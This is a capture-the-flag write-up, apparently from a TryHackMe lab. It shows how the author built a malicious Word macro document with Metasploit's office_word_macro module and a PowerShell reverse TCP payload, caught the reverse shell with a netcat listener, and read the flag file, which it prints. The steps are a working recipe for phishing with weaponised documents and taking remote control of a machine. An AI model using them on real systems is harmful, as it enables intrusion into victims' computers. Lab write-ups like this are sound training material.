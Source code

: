 # 🎯 **Challenge Writeup: Word File Payload and Reverse Shell Access**   

This challenge was both fun and frustrating, making me bang my head against the wall multiple times! 🧱

---

### 📚 **Step 1: Understanding the Challenge**  
Since we needed to fit a payload inside a Word file, I explored various methods. After trying a few wrong approaches, I discovered that `msfconsole` has a specific module for creating Word-based payloads.

---

### 🛠 **Step 2: Creating the Payload with msfconsole**  
We used the following commands to create a malicious Word file payload:  

```bash
use exploit/multi/fileformat/office_word_macro  
set PAYLOAD payload/windows/powershell_reverse_tcp  
set LHOST 10.17.19.178  
set LPORT 4444  
run  
```  

- **LHOST:** This is my **OpenVPN IP** (as I was connected via `tun0` on WSL).  
- **LPORT:** Any port I wanted to listen on (I chose port `4444`).  

---

### 🔊 **Step 3: Deploying the Payload and Starting Listener**  
After creating and submitting the payload to the victim, I opened a listener on port 4444:  

```bash
nc -lvnp 4444  
```  

💡 **Success!** I got a reverse shell connection to the victim's PC! 🎉  

---

### 🔍 **Step 4: Searching for the Flag**  
Once connected, I explored the victim's desktop:  

```bash
ls C:\Users\Administrator\Desktop\*  
```  

🗂 **Output:**  
```  
  Directory: C:\Users\Administrator\Desktop  
  
Mode                LastWriteTime         Length Name  
----                -------------         ------ ----  
-a----        6/21/2016   3:36 PM            527 EC2 Feedback.website  
-a----        6/21/2016   3:36 PM            554 EC2 Microsoft Windows Guide.website  
-a----         3/1/2025   5:27 PM             27 flag.txt  
```  

---

### 🏁 **Step 5: Retrieving the Flag**  
I found the `flag.txt` file, read it, and retrieved the flag:  

```
flag:  
THM{gh0st_ph1sh1ng_exp0s3d}  
```

---
